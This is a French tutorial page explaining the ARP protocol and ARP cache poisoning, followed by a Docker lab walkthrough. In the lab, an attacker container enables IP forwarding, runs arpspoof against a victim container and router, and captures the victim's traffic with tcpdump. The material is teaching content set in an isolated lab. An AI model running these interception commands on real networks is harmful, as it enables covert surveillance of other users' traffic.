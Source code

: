 ```yaml
---
title: Comment fonctionne le ARP Cache Poisoning
description: Vous vous êtes surement déjà demandé comment les attaquants font pour intercepter des paquets sur le réseau, espionner les utilisateurs d'un Wi-Fi public, etc. La méthode de l'empoisonnement de cache ARP est une attaque basique qui permet de faire cela
categories: [offensive]
tags: [cybersécurité]
template: doc
next: true
prev: true
---
```


_Vous vous êtes surement déjà demandé comment les attaquants font pour intercepter des paquets sur le réseau, espionner les utilisateurs d'un Wi-Fi public, etc. La méthode de l'empoisonnement de cache ARP est une attaque basique qui permet de faire cela_


## Cours

### Comprendre le protocole ARP et les tables ARP

Pour comprendre l’attaque MITM (Man in the middle), il faut comprendre simplement le protocole ARP.


Tout ce que vous devez savoir c’est que chaque machine du réseau possède un cache ARP. Comme son nom l’indique, c’est un cache, il est donc temporaire. 
Le cache ARP consiste en une correspondance entre les adresses IP et les adresses MAC des machines du réseau. Ces correspondances sont rangées dans des tables ARP.


Exemple de table ARP : 

<Image src="https://raw.githubusercontent.com/tanguybron/cybersec-du-dimanche/refs/heads/main/source/MITM/images/cache_arp.png" alt="ARP" format="avif" quality={"high"} width="1000" height="1000"/>

Ci-dessus, deux commandes qui affichent les correspondances entre 2 ip du réseau et leur adresse MAC. On voit que l’adresse 10.5.0.1 a pour adresse MAC 02:42:8c:d5:51:03.

A ce stade, vous devriez avoir compris ce qu’est une table ARP. Cependant, vous avez lu juste avant qu’ARP était un protocole… En effet, pour remplir ces tables ARP, la machine va envoyer des requêtes aux autres machines sur le réseau. Les requêtes envoyées sont tout simplement comme le dialogue qui suit : 

> votre_machine : “qui a l’adresse 10.5.0.2 ?”
>
> machine_distante : “c’est moi, voici mon adresse MAC : 02:42:0a:05:00:02 !”

Et ainsi la machine ajoute une ligne à sa table ARP.

Lorsqu’une machine distante veut envoyer une requête à une destination, elle s’assure d’avoir un couple IP-MAC correct.

### Comprendre le fonctionnement d’une attaque MITM (Man in The Middle)

Le but de cette attaque est de tromper la machine victime en se faisant passer pour quelqu’un d’autre. Il faut ainsi envoyer des informations à une machine pour qu’elle enregistre dans son cache ARP les mauvaises correspondances IP-MAC.

Si on veut observer toutes les communications entre une machine et un routeur, il faut se placer entre les deux machines (d’où l’appellation Man in the Middle). On dit à la victime “c’est moi le routeur”, ainsi elle enverra ses paquets à la machine attaquante, qui les transmettra ensuite au routeur. Lorsqu’une réponse arrive du routeur, l’attaquant dit au routeur “c’est moi qui suis la machine qui a envoyé cette requête”, l’attaquant intercepte donc la requête qu’il renvoie à la machine victime.
Ce schéma résume bien l’attaque : 


<Image src="https://beaglesecurity.com/blog/images/man-in-the-middle-attacks.webp" alt="ARP" format="avif" quality={"high"} width="1000" height="1000"/>

## Tutoriel

### MITM dans un environnement dédié

Il vous est possible de suivre et effectuer les mêmes étapes de ce tutoriel depuis votre machine en téléchargeant ce fichier : [docker-compose.yml](https://raw.githubusercontent.com/tanguybron/cybersec-du-dimanche/refs/heads/main/source/MITM/docker-compose.yml)

### Lancement de l'environnement

Maintenant que vous avez téléchargé le fichier docker-compose.yml, vous pouvez récupérer et lancer les machines utiles pour ce tutoriel en tapant la commande : 

```shell
$ docker-compose up -d
```

Lorsque l'opération est finie, vous pouvez lister vos conteneurs avec la commande :

```shell
$ docker ps -a
```
Vous devriez voir une réponse similaire à celle ci-dessous : 

<Image src="https://raw.githubusercontent.com/tanguybron/cybersec-du-dimanche/refs/heads/main/source/MITM/images/conteneurs.png" alt="ARP" format="avif" quality={"high"} width="1000" height="1000"/>


Maintenant, ouvrons 2 Terminal séparés et connectons nous aux deux machines : 
Pour utiliser la machine attaquante, tapez la commande : 
```shell
$ docker exec -it attaquant /bin/bash
```

Pour utiliser la machine victime, tapez la commande : 
```shell
$ docker exec -it victime /bin/bash
```

Vous êtes maintenant connecté aux deux machines et vous devriez avoir deux terminaux ouverts : 
<Image src="https://raw.githubusercontent.com/tanguybron/cybersec-du-dimanche/refs/heads/main/source/MITM/images/terminal.png" alt="ARP" format="avif" quality={"high"} width="1000" height="1000"/>


### Vérification de la Configuration

Regardons les adresses ip de nos deux machines à l'aide de la commande : 
```shell
$ ifconfig
```

Vous obtenez normalement une réponse comme suit : 
<Image src="https://raw.githubusercontent.com/tanguybron/cybersec-du-dimanche/refs/heads/main/source/MITM/images/ifconfig.png" alt="ARP" format="avif" quality={"high"} width="1000" height="1000"/>

On voit bien que la machine attaquante a pour adresse IP **10.5.0.2** et la machine victime **10.5.0.3**.


Vérifions maintenant la réponse ICMP de la machine victime. Sur la machine attaquante, utilisons la commande **ping** : 
```shell
$ ping 10.5.0.3
```
(Tapez Ctrl+C pour arrêter l'exécution de la commande)

Vous devriez voir cela : 
<Image src="https://raw.githubusercontent.com/tanguybron/cybersec-du-dimanche/refs/heads/main/source/MITM/images/ping.png" alt="ARP" format="avif" quality={"high"} width="1000" height="1000"/>


Les paquets circulent bien, donc tout est bien configuré.

Il est aussi recommandé de taper la commande : 

```shell
$ ping 10.5.0.1
```

Pour vérifier que nous avons une réponse ICMP du routeur.

### Mise en place de l'attaque

Affichons tout d'abord la table arp de nos deux machines : 
```shell
$ arp -n
```
<Image src="https://raw.githubusercontent.com/tanguybron/cybersec-du-dimanche/refs/heads/main/source/MITM/images/arp.png" alt="ARP" format="avif" quality={"high"} width="1000" height="1000"/>


Afin que les requêtes puissent circuler entre la machine victime et le routeur, il faut que la machine attaquante puisse renvoyer les requêtes reçues.
Nous devons donc activer l'ip forwarding sur notre machine attaquante. Si nous manquons cette étape, soit il s’agit d'un choix de l’attaquant de bloquer toutes les requêtes de sa victime afin de lui bloquer toute connectivité, ou alors il s’agit d’une erreur d’inattention qui empêchera l’attaquant d’observer ce que la victime fait sur sa machine.

Voici comment activer l'ip forwarding : 

```shell
$ echo 1 > /proc/sys/net/ipv4/ip_forward
```

Pour vérifier que cela est bien activé : 

```shell
$ cat /proc/sys/net/ipv4/ip_forward
```

Vous devez lire un **1** en réponse à cette commande.

### Lancement de l'attaque

Nous allons maintenant lancer l'attaque. Pour bien voir ce qu'il se passe, nous allons ouvrir un autre Terminal en se connectant une deuxième fois à la machine attaquante. (voir commande plus haut) 
A ce stade vous avez donc 3 applications Terminal ouvertes : 2 sur la machine attaquante 1 sur la machine victime.

Sur notre machine attaquante, nous allons lancer l'**arpspoof** qui consiste à faire croire à la victime que nous sommes le routeur et au routeur que nous sommes la victime (empoisonnement de cache arp): 

```shell
$ arpspoof -t 10.5.0.3 10.5.0.1
```

On peut observer les requêtes ARP envoyées lorsque cette commande est exécutée : 
<Image src="https://raw.githubusercontent.com/tanguybron/cybersec-du-dimanche/refs/heads/main/source/MITM/images/poisoning.png" alt="ARP" format="avif" quality={"high"} width="1000" height="1000"/>


Maintenant que l'empoisonnement de la table ARP est lancé, il faut laisser les requêtes s'envoyer. Laissez le terminal de côté. Nous allons maintenant écouter et visualiser les requêtes qui passent par notre machine attaquante. Sur l'autre Terminal de la machine attaquante tapez : 

```shell
$ tcpdump -i eth0
```

Dès que la commande est exécutée, nous voyons circuler les requêtes ARP sur le réseau.

Que se passe-t-il si maintenant la machine victime ping les serveurs de github ? (adresse des serveurs github : **140.82.121.4**)

Sur la machine victime, tapez : 

```shell
$ ping 140.82.121.4 
```

**Observations depuis la machine attaquante :**
<Image src="https://raw.githubusercontent.com/tanguybron/cybersec-du-dimanche/refs/heads/main/source/MITM/images/ping_victime.png" alt="ARP" format="avif" quality={"high"} width="1000" height="1000"/>


Oui ! Effectivement ! On voit bien que l'attaque a fonctionné. Vous voyez sur la machine attaquante que la victime a envoyé une requête aux serveurs de github!